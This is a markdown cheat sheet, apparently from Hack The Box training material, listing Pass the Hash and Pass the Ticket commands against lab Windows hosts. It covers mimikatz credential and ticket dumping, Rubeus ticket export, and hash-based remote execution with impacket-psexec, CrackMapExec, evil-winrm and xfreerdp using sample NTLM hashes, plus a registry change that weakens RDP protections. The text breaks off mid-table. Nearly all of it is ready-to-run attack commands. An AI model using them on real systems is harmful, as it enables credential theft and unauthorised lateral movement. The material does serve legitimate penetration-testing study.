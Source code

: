 ### Pass the Hash (PtH) 

| **Command**| **Description**|
|-|-|
| `mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit` | Pass the Hash from Windows Using Mimikatz -CMD |
| [Invoke-TheHash with SMB / Invoke-TheHash with WMI](https://academy.hackthebox.com/module/147/section/1638) | |
| `impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453` | Pass the Hash with Impacket psexec (Linux) |
| `crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453` | Pass the Hash with CrackMapExec |
| `crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami` | Pass the Hash command execution with CrackMapExec |
| `evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453` | Pass the Hash with evil-winrm |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable Restricted Admin Mode to Allow PtH from xfreerdp -CMD |
| `xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B` | Pass the Hash Using RDP |

### Pass the Ticket (PtT) from Windows 

| **Command**| **Description**|
|-|-|
| **Mimikatz - Export Tickets** | Command Prompt |
| `mimikatz.exe` | |
| `privilege::debug` | |
| `sekurlsa::tickets /export` | |
| | |
| **Rubeus - Export Tickets** | Command Prompt |
| `Rubeus.exe dump /nowrap` | |
| | | 
| **Pass the Key or OverPass the Hash** | |
| Mimikatz - Extract Kerberos Keys | Command Prompt |
| `mimikatz.exe` | |
| `privilege::debug` | |
| `sekurlsa::ekeys` | |
| | |
| Mimikatz - Extract Kerberos Keys | |
| `mimikatz.exe` | |
| `privilege::debug` | |
| `sekurlsa::ekeys` | |
| | |
| Mimikatz - Pass the Key or OverPass the Hash | |
| `mimikatz.exe` | |
| `privilege::debug` | |